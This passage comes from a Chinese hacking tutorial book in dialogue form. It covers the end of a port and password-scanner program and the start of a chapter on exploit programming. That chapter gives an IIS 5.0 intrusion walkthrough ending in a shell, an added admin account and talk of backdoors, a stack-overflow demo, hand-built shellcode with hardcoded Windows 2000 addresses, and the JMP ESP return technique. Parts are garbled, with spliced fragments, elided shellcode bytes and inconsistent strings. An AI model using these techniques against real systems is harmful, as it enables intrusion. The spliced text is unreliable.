    if (Param.bMssql)
    {
        hThread[iCnt] = CreateThread(NULL, 0, MssqlScanThread, &Param, 0, NULL);
        if (hThread[iCnt])
        {
            iCnt++;
        }
    }
    if (Param.bPnp)
    {
        hThread[iCnt] = CreateThread(NULL, 0, PnpScanThread, &Param, 0, NULL);
        if (hThread[iCnt])
        {
            iCnt++;
        }
    }
    if (Param.bFtpPass)
    {
        hThread[iCnt] = CreateThread(NULL, 0, FtpPassScanThread, &Param, 0, NULL);
        if (hThread[iCnt])
        {
            iCnt++;
        }
    }
    if (Param.bMysqlPass)
    {
        hThread[iCnt] = CreateThread(NULL, 0, MySqlPassScanThread, &Param, 0, NULL);
        if (hThread[iCnt])
        {
            iCnt++;
        }
    }
    if (Param.bMssqlPass)
    {
        hThread[iCnt] = CreateThread(NULL, 0, MssqlPassScanThread, &Param, 0, NULL);
        if (hThread[iCnt])
        {
            iCnt++;
        }
    }

    // 等待所有的线程结束
    WaitForMultipleObjects(iCnt, hThread, TRUE, INFINITE);
    // 回收内存
    // 可能会有问题，需要验证一下
    POSITION pos = Param.pIpList->GetHeadPosition();
    for (int i = 0; i < Param.pIpList->GetCount(); i++)
    {
        VulpAndPort ipPort = Param.pIpList->GetNext(pos);
        ipPort.pPortList->RemoveAll();
        delete ipPort.pPortList;
    }
    Param.pIpList->RemoveAll();
    delete Param.pIpList;
    return 0;
}
```

> “至此，我们整个程序的框架就建立起来了，剩下的工作就是将模块的具体功能向框架中添加，都是一些体力活了哦。”


图 3-82

### 3.3.6 模块的实现与测试

本章的主要目的就是为了了解设计一个较大的软件时应该如何分析，因此代码的具体实现在其次了，模块的具体实现可以参看完整的源代码。最后，为了让用户使用该软件更加顺手，我们应该将用户上次扫描的 IP 地址、端口以及各项选择信息保存，下次启动的时候读取出来，我们可以选择注册表来保存这些信息，MFC 为我们提供了简单的函数来进行注册表的操作，如 `CWinApp::GetProfileInt`、`CWinApp::WriteProfileInt`、`CWinApp::GetProfileString`、`CWinApp::WriteProfileString`。要保存信息，我们可以在点击“开始扫描”按钮的时候把所有的参数写入到注册表中，而在各个配置页面的对话框的初始化函数 `OnInitDialog` 中从注册表中读取出来，然后显示在控件中。好了，最后的工作完成，我们来测试一下辛苦打造出来的综合扫描工具吧，如图 3-82！

# 第四章 漏洞利用编程

“漏洞是什么样的漏洞？危险紧急的漏洞！代码是什么样的代码？精心构造的代码！”小菜们唠叨着在微软漏洞公告上经常看到的这两句话，不解地问老师：“这是什么意思呢？”

老师不紧不慢地从头解释道：“软件的缺陷被通称为 Bug，软件都是有 Bug 的。”

“哦，软件都是有 Bug 的？”小菜们惊奇地说道。

“是的。不过一些微小的 Bug，不影响软件整体的功能，软件工程就会因为开发期限的限制，将其放入维护周期中慢慢地修正。Bug 有功能方面和安全方面的分别。比如用户点击一个按钮，没有做正确的事情，那就是功能方面的 Bug。而那些带来安全方面问题的 Bug，就被称为安全漏洞。”

“漏洞分为可以利用的漏洞和不可以利用的漏洞。那些可以利用的漏洞，特别是缓冲区溢出漏洞，可以控制计算机，甚至可以远程控制计算机，那么自然也就是危险紧急的漏洞了。攻击者基于危险紧急的漏洞，可以通过精心构造的代码，在目标机上执行任意代码，从而操纵计算机。那么究竟什么是精心构造的代码，这些代码又是如何执行的？大家想知道吗？”

“当然想了！”小菜们回答道，“不仅想知道，还想掌握呢！”

“Good！我们首先来看几个直观的漏洞利用的例子吧。”

## 4.1 漏洞利用

“漏洞分为两类，一类是本地的，一类是远程的。我们先看本地的例子。”

### 4.1.1 本地漏洞

“Mrinfo 是 Windows 自带的程序，它可以显示多播路由器的配置，可以借助该配置信息解决多播转发和路由问题。要知道程序的用法，可以在控制台下直接输入 Mrinfo，就会给出详细的帮助信息了，如图 4-1。”


“我们在 Windows 2000 Sp4 中输入 Mrinfo 从前有座山，山里有座庙，庙里有个老和尚，老和尚讲故事，讲经咒，就像图 4-2 一样，大家猜想一下会产生什么效果呢？”


“啊？这个，这个……我所知道的是从前有座山，山里有座庙，庙里有个老和尚，老和尚讲故事，讲的什么呢？——从前有座山，山里有座庙，庙里有个老和尚，老和尚讲故事，讲的什么呢？——从前有座山……如此循环 500 次而已！啊，困死我了，怪不得是讲给不听话的小孩儿听的，果然有催眠作用！”

“是啊，讲经咒？是什么呢？”小菜们纷纷说道。

“经，读 jīng，数学上指弧度，当圆周上某段圆弧的弧长等于该圆的半径时，称此圆弧所对的圆心角为一弧度；咒读 zhòu，就是咒语的意思。唉，当然，这和本文并没有什么关系，大家也不必追究这两个字的含义了。我们运行一下看看效果！”老师敲了一下回车，效果如图 4-3 所示。


“啊？锁屏了？”小菜们大惊失色，“为什么？”

“这是因为 Mrinfo 有一个本地缓冲区溢出漏洞，而上面的参数就是我们精心构造的代码。这些代码会导致 Mrinfo 在执行该参数时不知不觉地完成我们的锁屏功能！”

“啊？老和尚讲故事都可以是精心构造的代码啊？”小菜们的嘴合不上了。

“唉，这里先卖个关子，等深入讲解后，大家就可以明白原理了。我们继续来看远程漏洞的例子吧！”

### 4.1.2 远程漏洞利用

“这个远程漏洞的利用例子是以前录制下来的，漏洞本身可能有点老了，但整个利用过程可以说明很多问题。”多问题，非常经典。”老师边说边打出了幻灯片。

“入侵首先需要踩点，使用 `ipconfig` 可以看到本机的 IP 地址是 166，因此 telnet 旁边的机器 192.168.0.167 的 80 端口试试，如图 4-4。”

“就像我们在漏洞扫描中提到的方法一样，可以通过 banner 发现对方的 Web 服务器是 IIS 5.0，如图 4-5。”

“既然知道了是 IIS 5.0，我们就可以到 Google 搜索有什么相关的漏洞，如图 4-6。”

“很快就找到了一大堆，当时比较流行的是 printer 漏洞，如图 4-7。”

“既然如此，我们再找找利用工具，在 Google 中搜索 iis printer 工具，如图 4-8。”

“知道了有一个叫 `iis5hack` 的工具，将其下载下来。它是一个命令行工具，虽然暂时还不知道该怎么使用，但我们运行看看，如图 4-9。”


图 4-4


图 4-5


图 4-6

“程序给出了工具详细的使用方法。作为安全技术的牛人，它也是个编程高手，他们设计的程序很讲究规范，即使是提示信息，也是非常完善的，所以当大家拿到一个基于命令行执行的黑客工具又不知道怎么使用时，可以直接敲命令，就会有完善的帮助信息显示出来了。解释一下所显示的提示内容，工具的用法是 `iis5hack 主机 端口 和主机类型`。前面两个参数都很好理解，主机就是对方的 IP 地址，端口就是 Web 的端口，而主机类型呢？在提示的后方也给出了很详细的解释：中文版带 0，中文版 SP1 带 1，英文版带 2，英文版 SP1 带 3。”

这时老师补充道：“为什么需要选择版本呢？这是因为在那个时候，溢出的技术还处于发展之中，不同的系统需要选择不同的程序。当我们讲到缓冲区溢出程序的编写时，大家就会明白为什么会这样了，而且那时大家还可以进行改进，使得无论是什么版本使用同一个程序都可以成功。好了，我们对工具带参数 0 试试。也就是 `iis5hack 192.168.1.167 80 0`，连接，发送，然后提示登录对方 99 端口试试，如图 4-10。”


图 4-7


图 4-8


图 4-9


图 4-10

“我们输入 `telnet 192.168.1.167 99`，哗！成功登上了对方的电脑了，如图 4-11！”

“我们测试一下拥有的权限，发现可以添加用户并把用户添加到管理员组，这说明我们至少拥有管理员权限。实际上，利用该漏洞拥有的是比管理员还要高的电脑最高权限 System 权限，如图 4-12。”

“既然有了最高的权限，我们就可以做任何事情，包括安装控制软件、留后门、给电脑打补丁以便下次从后门进入等。”

“哇！还给电脑打补丁？真是什么都可以执行啊！”

“是的，上面的漏洞例子虽然比较老，但说明了一次典型攻击的整个流程，踩点->寻找利用漏洞->寻找攻击工具->攻击漏洞->清理现场，入侵的完整模式如图 4-13 所示。”

“哦，真是例子虽老，可见一斑啊！”小菜们点点头。

“是的，即使是最新的漏洞，利用也是遵循该攻击流程的！其实，有了利用工具后，攻击都是很简单的事情，只是执行工具而已。”老师说道，“技术含量完全在漏洞的分析和工具的编写中，不断追求进步的同学们，想写出这样的漏洞利用程序吗？”

“当然了，当然了，让我们马上开始学习吧，学习吧！漏洞利用，我来也！”小菜们二话不说，挽起袖子就要干活了！


## 4.2 漏洞程序的利用编写

“我们来看一个简单的入门例子。因为 VC2003 的编译器有了一些改变，为了从头学习漏洞利用编程，从这里开始，我们使用 VC6.0 来开展我们的学习。VC6.0 的安装就很简单了，点击 Setup 程序后，基本上一路选择下一步即可。”

### 4.2.1 一个漏洞程序

“安装好 VC6.0 后，我们在 VC6.0 中建立一个控制台工程，在 cpp 文件中输入如下代码；或者把代码粘贴到一个后缀名为 cpp 的文件中，使用 VC6.0 打开后直接按 Ctrl+F7 进行编译，VC6.0 会自动给我们生成新的工程。”

```cpp
#include <windows.h>
#include <winbase.h>
#include <stdio.h>

char strName[] = "ww0830";

int main()
{
    char strOutput[8];
    strcpy(strOutput, strName);
    for(int i=0; i<8 && strOutput[i]; i++)
        printf("\\0x%x", strOutput[i]);
    return 0;
}
```


小菜们经过前面网络编程的学习，已经有了不错的基本功，独自就开始一句一句地分析起来。`#include <stdio.h>` 和 `#include <string.h>` 是包含这两个头文件，因为后面要使用的 `strcpy` 函数和 `printf` 函数是在这两个头文件中定义的。`char name[] = "ww0830";` 是把 `name` 这个数组赋值，往里面放入 `ww0830` 这几个字符，这又是老师的名字；然后是 `int main(){……}`，这是主函数。程序进来就是先找这个地方，执行里面的语句。接下来的 `char output[8]; strcpy(output, name);` 就是让系统给 `output` 变量分配 8 个 `char` 的空间，然后把 `name` 里面装的字符拷贝给它。`strcpy(des, source)` 这个拷贝函数是把第二个参数 `source` 的值拷给第一个参数 `des`。下面的 `for(int i=0; i<8 && output[i]; i++) printf("\\0x%x", output[i]);` 是把 `output` 数组中的内容以 16 进制的形式打出来。”小菜们查了一下 MSDN 说道。

“不错！不错！分析得非常不错！大家要注意的是 `strcpy` 函数，它的拷贝是不检查长度的，它会一直拷，一直拷，直到 `source` 到结尾，这就是它的弱点了。让我们运行一下，看看结果吧！在 VC 中编译、链接、执行，如图 4-14。”

小菜们扳着手指算了算：“嗯，打出来的是 `\0x77\0x77\0x30\0x38\0x33\0x30`，77 就是 w 的 16 进制表示，而 30、38、33、30 就是 0830 的 16 进制表示。程序运行后一切正常，把 ww0830 的 16 进制打出后，安全地退出了。”

“是的，大家明白就好了。刚才大家不是说又是打出 ww0830 这个名字吗，那好，我们稍微改一下，改成其它的。这次我把 `name[]` 的值赋成 `abcdefgh`，大家再看看运行的结果有什么问题没有，如图 4-15！”


图 4-14

众小菜使劲地看啊看，然后小心翼翼地问道：“只是把 abcdefgh 的十六进制 61、62、63 等打出来的嘛，有什么问题吗？”

老师瞟了一眼，然后说道：“对！其实就是没有问题！”

台下狂倒……

“不是啊，不是啊。”老师忙解释，“目的是让大家清楚地看下面真正的玄机。这次我把 `name` 再改长点，改成 **abcdefghijklmnopqrstuvwxyz**，再运行，大家看啊，快来看啊，如图 4-16！”

“哦哦哦……不得了了，不得了了，出错了！出错了！”台下一阵恐慌。

“哈哈，不要急，不要急。”老师摆出一副天塌下来自己顶的模样，“大家仔细看看这个出错的警告是什么。”

“是 0x706f6e6d 引用的 0x706f6e6d 内存，该内存不能为 read。”

“当然，当然，你们不觉得 6d6e6f70 这些很熟悉吗？我们的第一个程序中打出的……”老师提示道。

“哦，abcd 是 61626364，那 6d6e6f70 就应该是 mnop 了。”菜鸟们一阵埋头苦算后欢呼道！

“Good，我给一个对应转换表吧，以后大家用来直接查就可以了，如表 1。”


图 4-15

| Char. | 0 | 1 | 2 | 3 | 4 | 5 | 6 | 7 | 8 | 9 | ; |
|---|---|---|---|---|---|---|---|---|---|---|---|
| Hex. | 30 | 31 | 32 | 33 | 34 | 35 | 36 | 37 | 38 | 39 | ; |
| Char. | A | B | C | D | E | F | G | H | I | J | K |
| Hex. | 41 | 42 | 43 | 44 | 45 | 46 | 47 | 48 | 49 | 4A | 4B |
| Char. | M | N | O | P | Q | R | S | T | U | V | W |
| Hex. | 4D | 4E | 4F | 50 | 51 | 52 | 53 | 54 | 55 | 56 | 57 |
| Char. | Y | Z | a | b | c | d | e | f | g | h | i |
| Hex. | 59 | 5A | 61 | 62 | 63 | 64 | 65 | 66 | 67 | 68 | 69 |
| Char. | k | l | m | n | o | p | q | r | s | t | u |
| Hex. | 6B | 6C | 6D | 6E | 6F | 70 | 71 | 72 | 73 | 74 | 75 |
| Char. | w | x | y | z | ， | 。 | ‘ | ’ | “ | ” |  |
| Hex. | 77 | 78 | 79 | 7A |  |  |  |  |  |  |  |

表 1


图 4-16

“经常看到这样的出错对话框，究竟是怎么回事啊？为什么在 `name[]` 比较短的时候不会有问题，而比较长的时候就会出错呢？”

老师说道：“嗯，这个就涉及到 Windows 的运行机制了。”

#### （1）原理分析

“要理解上面的现象，只需要了解两个概念，再结合实际分析一下就会明白了。第一个概念是中断。可以举一个日常生活中的例子来说明，假如你正在给朋友写信，电话铃响了，这时，你放下手中的笔，去接电话。通话完毕，再继续写信。这个例子就表现了中断及其处理过程：电话铃声使你暂时中止当前的工作，而去处理更为急需处理的事情（接电话），把急需处理的事情处理完毕后，再回来继续原来的事情。第二个概念是堆栈。计算机为了能回头继续原来的事情，就需要把原来指令的指针 EIP 保存在堆栈中，当要回去原来的地方时，就把保存在堆栈中的 EIP 恢复就可以了。并且各个函数的局部变量的分配地方也是在堆栈中。”

“说到这儿，老师看了看台下的小菜们，只见他们听得似懂非懂。‘好了，我们来看刚才的那个程序就清楚了。’”

> **小知识：push 和 pop**
>
> 堆栈是一种数据结构，遵循“先进后出，后进先出”的规则，就像我们平时叠盘子一样，先放在下面的最后才能取出来，最后放上去的最先取出来。而在操作系统中，存和取的动作就是 push 和 pop。Push 放一个数据到堆栈中去，Pop 取一个堆栈中的数据出来。


“第一次我们输入的只是 **abcdefgh**，因为要进入 `main` 函数，所以系统把之前的 EIP 和 EBP 保存在堆栈中，便于以后恢复。然后为 `output[8]` 在堆栈中分配 8 个 `char`，拷贝 abcdefgh 到其中。注意，Windows 下堆栈的分配是高址往低址分配的，其结构如图 4-17 所示。”

“这样在执行完 `main` 函数后，把保存在堆栈中的 EBP、EIP 恢复回去，就可以继续原来的执行过程而没有任何问题。”

小菜们点点头：“大概明白了，呵呵。”

“好了，那第二次输入 **abcdefghijklmnopqrstuvwxyz** 时，`output` 分配的还是 8 个字节，但却拷了 26 个字母进来，和前面比较，其结果如图 4-18 所示。”

“大家注意了！因为拷贝的字母太长，所以不仅把分配给 `output` 的 8 个字节占用完了，而且还继续往下，把保存的 EBP 和 EIP 给占用了。当执行完 `main` 函数后，系统要恢复 EBP、EIP，而 EIP 已经被我们覆盖成 **ponm** 即 `6d6e6f70` 了，但系统不知道，就会去执行 `6d6e6f70` 位置的东西，而那个位置是不可读的，所以就会出错了。”


“乌拉！就是啊！”小菜们一片欢腾。

“现在大家想想，我们可以通过覆盖 EIP 为任意值，来让程序运行到一个错误的地方，那如果我们特意地把 EIP 覆盖成我们想去的程序的地方，那会怎么样呢？”

“应该就会运行我们想要的程序吧……”小菜们答道。

“很好！就是这样的。我们来看看如何编写想要的程序吧。”

#### （2）Shellcode 编写入门

“一般来说，我们把想要的程序称为 Shellcode。Shell 最先指人机交互的界面，而这里 Shellcode 不仅仅指交互，甚至可以是实现任意功能的机器码。Shellcode 的编写是很深奥的，也涉及很多方面的知识，我们在后面的课程中会详细地深入分析。但在这里就不多说了，只给个例子，就是 Windows 下如何将一个 C 代码编写的程序转换成 Shellcode 的 16 进制形式。我们想要的程序功能最好是能够得到一个控制台窗口，在该窗口下，我们可以做很多事情。比如下面这个 C 程序。”

```c
#include <windows.h>
int main()
{
    LoadLibrary("msvcrt.dll");
    system("command.com");
    return 0;
}
```


“执行一个 `command.com` 就可以获得一个 DOS 窗口，在 C 库函数里，语句 **system("command.com")** 将完成我们需要的功能。`system` 函数由 msvcrt.dll（the Microsoft Visual C++ Runtime Library）提供，所以要想执行 `system`，我们必须首先使用 **LoadLibrary("msvcrt.dll")** 装载动态链接库 msvcrt.dll，然后才能调用 `system` 函数。”

> **小知识：Windows 不像 Unix 那样使用系统调用来实现关键函数。Windows 通过动态链接库来提供系统函数，就是所谓的 DLL。**

“OK，我们执行看效果吧。弹出来一个 DOS 对话框，可以执行 `dir`、`copy` 等命令，如图 4-19。”

“乌拉，就是啊！”小菜们又一片欢腾。

在 Debug 工具栏中点最后一个按钮 Disassemble，这样就出现了源程序的汇编代码；再在代码窗口上点鼠标右键，在弹出菜单中选择 Code Bytes，就出现机器码了，如图 4-20！

> “大家看 LoadLibrary 函数调用过程的汇编码，可以明白 Windows 函数的调用过程。在 Windows 下，函数的调用是先从右到左 Push 参数入栈，然后 call 对应的函数。”

老师解释道：“比如在 Windows 下执行函数 `Func(argv1, argv2, argv3)`，先把参数从右到左压入堆栈，就是依次把 `argv3`、`argv2`、`argv1` 压入堆栈里，然后 Call `Func` 函数的地址，这里的 Call `Func` 函数地址，其实等于两步，一是保存当前 EIP，二是跳到 `Func` 函数的地址执行，即 Push EIP + Jmp Func，如图 4-21。”

> “而回到 `LoadLibrary("msvcrt.dll")` 的汇编码，就是先将参数 `msvcrt.dll` 字符串的地址入栈，然后 call `LoadLibrary` 函数。”

> “哦！生成的汇编真的和分析一模一样啊！”

> “的确如此，我们可以以此仿照写出函数执行的汇编代码了。”

老师说道。

> “哇！”台下大惊，“我们还不太懂汇编呢！”

> “没关系的。”老师满有信心地说道，“你们只要知道 push 和 call 就行了，知道 push 和 call 吗？知道，所以就行了。”

> “……”台下都不敢说话。

> “不要怕，学习的关键还是要学思路，只要把握了整个流程，那些细节的东西自然而然也就明白了。这也是种学习的方法，有时太拘泥于细节，不能把握全局，反而不好。‘宽独览大略’，这就是靖哥哥比其他人强的原因。”

> “哦！”

> “怎么样？大家一起来考虑，一起来编写？”老师说道。

> “好吧！”听到诸葛亮也这样，大家都很有信心了。

“我们先写 `system("command.exe")` 的汇编代码，根据前面的分析，执行 `system("command.exe")`，只需要先把参数 `command.exe` 字符串的地址压入栈，再 call `system` 的地址就行了。这里有两个问题，一是 `system` 函数的地址，二是 `command.exe` 字符串的生成。对于第一个问题，系统的版本不一样，函数的地址就不一样，这就是早期利用程序需要指定版本的原因之一。想知道自己系统的版本，在开始->‘运行’栏中输入 `winver`，会弹出‘关于 Windows’，里面就有系统的版本，如图 4-22。”

> “哦，是 2000 SP4 啊。”小菜们看到了。

“嗯，要获得 `system` 函数的地址，可以通过 `LoadLibrary` 和 `GetProcAddress` 这两个 API 函数来实现，C 程序如下。”


```c
#include <stdio.h>
int main()
{
    HMODULE hModule = LoadLibrary("msvcrt.dll");
    FARPROC pAdd = GetProcAddress(hModule, "system");
    printf("0x%x\n", pAdd);
    return 0;
}
```

“加载 `msvcrt.dll` 这个动态链接库，动态链接库的句柄赋给 `hModule`；`FARPROC pAdd = GetProcAddress(hModule, "system");`。获得动态链接库的句柄后，我们再使用 `GetProcAddress(LibHandle, "system")` 获得 `system` 的”## 第四章 漏洞利用编程

真实地址。然后再使用这个真实地址来调用 system 函数。运行程序，我们就获得了 system 函数的地址，并打印出来，如图 4-23。

“哦，system 函数的地址是 0x78018ebf 啊。”

“更准确地说，是在 Win2000 sp4 上的地址是这个，大家先记录下来。”老师说道。

“第二个问题，command.exe 字符串地址是多少呢？我们把什么压入堆栈呢？”

“是啊，是啊，这是个问题。”小菜们附和道。

“问得好！我们不知道 command.exe 字符串的地址，甚至连内存里有没有 command.exe 字符串都不知道，但我们可以自己构造出来。”老师说道。

“啊？自己构造？在哪里构造？怎样构造啊？”大家不解地问道。

“就在堆栈里构造啊。我们把 ‘command.exe’ 一个字符一个字符地压入堆栈，这样 ‘command.exe’ 字符串就有了，而且 esp 正好是 command.exe 字符串的地址，如图 4-24。”

“有了字符串的地址 esp，我们把 esp 压入堆栈，就是 system("command.exe") 函数的参数 command.exe 字符串的地址啦，如图 4-25。”

“哦！”台下恍然大悟。

“参数入栈后，我们 call system 函数的地址就行了，那地址是？”

小菜们看了下刚才的笔记，说道：“是 0x78018ebf！”

“对，所以我们 call 0x78018ebf，那么整个 system("command.exe") 的汇编代码就是。”

```asm
mov esp, ebp        ; 把 ebp 的内容赋值给 esp
push ebp            ; 保存 ebp，esp - 4
mov ebp, esp        ; 给 ebp 赋新值，将作为局部变量的基指针
xor edi, edi
push edi            ; 压入 0，esp - 4，作用是构造字符串的结尾 '\0' 字符
sub esp, 08h        ; 加上上面，一共有 12 个字节，用来放 “command.com”
mov byte ptr [ebp-0ch], 63h
mov byte ptr [ebp-0bh], 6fh
mov byte ptr [ebp-0ah], 6dh
mov byte ptr [ebp-09h], 6dh
mov byte ptr [ebp-08h], 61h
mov byte ptr [ebp-07h], 6eh
mov byte ptr [ebp-06h], 64h
mov byte ptr [ebp-05h], 2Eh
mov byte ptr [ebp-04h], 63h
mov byte ptr [ebp-03h], 6fh
mov byte ptr [ebp-02h], 6dh    ; 生成串 “command.com”
lea eax, [ebp-0ch]
push eax            ; 串地址作为参数入栈
mov eax, 0x78018ebf
call eax            ; 调用 system
```

“再来解释一下，mov ebp, esp 是把 esp 赋给 ebp 作为栈底，然后 push edi、sub esp, 08h 把 esp 减去了 12 个字节，这 12 个字节空间就用来放 ‘command.com’，然后 mov byte ptr [ebp-0ch], 63h 那些指令，是我们把 command.com 一个字节一个字节地放进留出的空间中，这下有 command.com 字符了吧！我们使用 lea eax, [ebp-0ch] 来获得构造的 command.com 字符串的地址，最后 push eax 把地址压入堆栈，call system 函数的地址，就完成了。我们来验证一下，在 VC 中可以使用 __asm 关键字插入汇编，我们把 system("command.exe") 使用我们写的汇编替换，LoadLibrary 先不动，代码如下。”

```c
#include <windows.h>
int main()
{
    LoadLibrary("msvcrt.dll");
    __asm
    {
        mov esp, ebp        ; 把 ebp 的内容赋值给 esp
        push ebp            ; 保存 ebp，esp - 4
        mov ebp, esp        ; 给 ebp 赋新值，将作为局部变量的基指针
        xor edi, edi
        push edi            ; 压入 0，esp - 4，作用是构造字符串的结尾 '\0' 字符
        sub esp, 08h        ; 加上上面，一共有 12 个字节，用来放 “command.com”
        mov byte ptr [ebp-0ch], 63h
        mov byte ptr [ebp-0bh], 6fh
        mov byte ptr [ebp-0ah], 6dh
        mov byte ptr [ebp-09h], 6dh
        mov byte ptr [ebp-08h], 61h
        mov byte ptr [ebp-07h], 6eh
        mov byte ptr [ebp-06h], 64h
        mov byte ptr [ebp-05h], 2eh
        mov byte ptr [ebp-04h], 63h
        mov byte ptr [ebp-03h], 6fh
        mov byte ptr [ebp-02h], 6dh ; 生成串 command.com
        lea eax, [ebp-0ch]
        push eax ; 串地址作为参数
        mov eax, 0x78018ebf
        call eax ; 调用 system
    }
}
```

图 4-26

“然后执行，成功弹出了我们想要的 DOS 窗口，如图 4-26。”

“我们在该控制台中同样可以执行 dir 等 DOS 命令，如果不想用了，可以输入 exit 退出。”

“嗯？怎么会报错呢？”小菜们发现退出控制台时弹出了出错框，如图 4-27。

“这是因为堆栈没有平衡，前面 esp 减去了 12 字节，后面还 push 了串地址参数，所以我们要给 esp 加上 0x12，就可以把 esp 和 ebp 恢复了，即在代码的最后加上两句。”

图 4-27

```asm
add esp, 0x12
pop ebp
```

“这样代码合起来如下。”

```asm
_asm
{
    mov esp, ebp ; 把 ebp 的内容赋值给 esp
    push ebp ; 保存 ebp
    mov ebp, esp ; ebp 指针赋值，稍作为局部变量的基指针
    xor edi, edi
    push edi ; 传入 0，为后面构造字符串的结尾 0
    sub esp, 08h ; 加上前面 12 个字节，用来放 command.com
    mov byte ptr [ebp-0ch], 63h
    mov byte ptr [ebp-0bh], 6fh
    mov byte ptr [ebp-0ah], 6dh
    mov byte ptr [ebp-09h], 6dh
    mov byte ptr [ebp-08h], 61h
    mov byte ptr [ebp-07h], 6eh
    mov byte ptr [ebp-06h], 64h
    mov byte ptr [ebp-05h], 2eh
    mov byte ptr [ebp-04h], 63h
    mov byte ptr [ebp-03h], 6fh
    mov byte ptr [ebp-02h], 6dh ; 生成串 command.com
    lea eax, [ebp-0ch]
    push eax ; 串地址作为参数入栈
    mov eax, 0x78018ebf
    call eax ; 调用 system

    add esp, 0x12
    pop ebp
}
```

图 4-28

图 4-29

“我们再执行，退出时就不会报错了，如图 4-28。”

“那真是太好了！”小菜们拍拍手道。

“我们把 LoadLibrary("msvcrt.dll") 也仿照上面改成汇编，注意 LoadLibrary 在 Win2000 sp4 上的地址为 77e705cf。把两段汇编合起来得到 cmdASM.cpp，然后把 cmdASM.cpp 编译、链接、执行，也成功了！”

“哇！想不到汇编也这么轻松搞定啊。”大家都有点儿不相信自己的眼睛。

“呵呵，关键在于理解方法，有了方法，学习困难的东西就变成了件愉快的事。最后我们来生成机器码——ShellCode 吧。”

试，接着按下 Debug 工具栏的 Disassembly 按钮，然后点击右键，在弹出来的菜单中选中 Code Bytes，就出现汇编对应的机器码了，如图 4-29。”

> “我们把汇编对应的机器码原封不动抄下来，就得到我们想要的 ShellCode 了。”

> “好啊，好啊！”大家奋笔疾书，边看边抄，不一会儿就写下了 ShellCode。

```c
char strShellcode[] =
// 以下是 shellcode 开 DOS 窗口
"\x55\x8B\xEC\x33\xC0\x50\x50\x50\xC6\x45\xF4\x4D\xC6\x45\xF5\x53"
"\xC6\x45\xF6\x56\xC6\x45\xF7\x43\xC6\x45\xF8\x52\xC6\x45\xF9\x54\xC6\x45\xFA\x2E\xC6"
"\x45\xFB\x44\xC6\x45\xFC\x4F\xC6\x45\xFD\x53\xBA ..."
"\xCF\x05\xE7\x77" // LoadLibrary sp4 上地址为 77e705cfh
"\x52\x8D\x45\xF4\x50\xFF\x55\xF0"
"\x55\x8B\xEC\x83\xEC\x20\xBB\x63\x6F\x6D\x89\x45\xF4\xB8\x61\x6E\x64\x2E"
"\x89\x45\xF8\xB8\x63\x6F\x6D\x22\x89\x45\xFC\x33\xD2\x88\x55\xFF\x8D\x45\xF4"
"\x50\xB8 ..."
"\xBF\x8E\x01\x78" // system sp4 上地址为 78018ebfh
"\xFF\xD0" // call eax
"\x83\xC4\x12\x5D"; // 平衡堆栈
```

“我们测试一下 shellcode，只用 ((void (*)(void))&strShellcode)(); 就可以把数组转换成函数来执行了。”

```c
#include <stdio.h>
char strShellcode[] =
// 以下是 shellcode 开 DOS 窗口
"\x55\x8B\xEC\x33\xC0\x50\x50\x50\xC6\x45\xF4\x4D\xC6\x45\xF5\x53"
"\xC6\x45\xF6\x56\xC6\x45\xF7\x43\xC6\x45\xF8\x52\xC6\x45\xF9\x54\xC6\x45\xFA\x2E\xC6"
"\x45\xFB\x44\xC6\x45\xFC\x4F\xC6\x45\xFD\x53\xBA ..."
"\xCF\x05\xE7\x77" // LoadLibrary sp4 上地址为 77e705cfh
"\x52\x8D\x45\xF4\x50\xFF\x55\xF0"
"\x55\x8B\xEC\x83\xEC\x20\xBB\x63\x6F\x6D\x89\x45\xF4\xB8\x61\x6E\x64\x2E"
"\x89\x45\xF8\xB8\x63\x6F\x6D\x22\x89\x45\xFC\x33\xD2\x88\x55\xFF\x8D\x45\xF4"
"\x50\xB8 ..."
"\xBF\x8E\x01\x78" // system sp4 上地址为 78018ebfh
"\xFF\xD0" // call eax
"\x83\xC4\x12\x5D"; // 平衡堆栈

int main()
{
    ((void (*)(void))&strShellcode)();
    return 0;
}
```

“我们试一下，我们试一下。”小菜们怀着激动的心情，运行了程序，成功地弹出了 DOS 对话框，这可是全 16 进制的 Shellcode 哦，如图 4-30。

> “大家现在该了解 Shellcode 编写的整个流程了吧。”老师说道，“其实编写一个实用的 shellcode 还有很多问题要解决，比如通用、功能等，需要很高深的技术功底，但我们在这里就不深入了，下次有机会再专门为 shellcode 上一节课。基础的大家就这么认为吧。接下来，我们把这些背景知识连起来，写一个真正的利用程序！”

> “好，yeah!”

#### （3）返回地址覆盖方法——JMP ESP

“首先，我们分析一下现在拥有的资源：A：我们知道有问题程序返回点的精确位置，意思就是我们可以把它覆盖成任意地址，让计算机执行那个地址的代码。B：我们有了 shellcode——一个可以给我们提供 DOS 窗口的代码。C：那接下来，大家想想，我们应该做什么呢？”

> “嗯……”小菜们沉思中：“莫非把有问题程序的返回点地址覆盖为 shellcode 的地址？”

> “Very good！这三步就是缓冲区溢出攻击的基本原理和精髓——溢出三步曲！我们有了前两步，返回点定位和 shellcode 的编写，现在只需要完成第三步——把返回点覆盖成 shellcode 的地址，就可以成功利用缓冲区溢出了！”

> “哈哈，太好了！”小菜们口水都流下来了……

> “那现在的问题就是 shellcode 所在地址是多少呢？就是说我们把返回地址覆盖成多少呢？”

“嗯，在以前曾经有许多人提出了很多的办法来定位 shellcode，但都不精确，随着技术的发展，1999 年 dark spyrit AKA Barnaby Jack 提出了一个天才的想法，使用系统核心 DLL 里的指令来完成跳转。这一技巧开创了一个崭新的 Windows 缓冲区溢出的思路！”

> **小知识：** 过去，尤其是在 Unix 下，提出过的覆盖方法主要有两种：一是 NNNNNNNNNSSSSSSSSSSRRRRRRRRRR 型，适合于大缓冲区，N 代表空指令，也就是 0x90，在实际运行中，程序将什么也不做，而是一直沿着这些 NOPs 运行下去，直到遇到不是 NOPs 的指令再执行它们；S 代表 shellcode，R 代表覆盖的返回地址。思路是把返回地址 R 覆盖为 NOPs 的大概位置，这样就会跳到 NOP 中，然后继续执行，直到我们的 shellcode 中。但这种方法由于定位不准确，所以使用起来也不准确。二是 RRRRRRRRRRRNNNNNNNNNNSSSSSSSS 型，是使用大量的 R 填满整个缓冲区，然后大量的 NOP，最后是 shellcode。这里 R 使后跳到 NOP 中，再顺着往下执行，就会到 shellcode 中。但在 Windows 下，R 中必定会含有 0，这样整个构造就会被截断，只能用于 Unix 中。Windows 的系统核心 DLL 包括 kernel32.dll、user32.dll、gdi32.dll，这些 DLL 是一直位于内存中，而且对应于固定版本的 Windows，加载的位置是固定的：

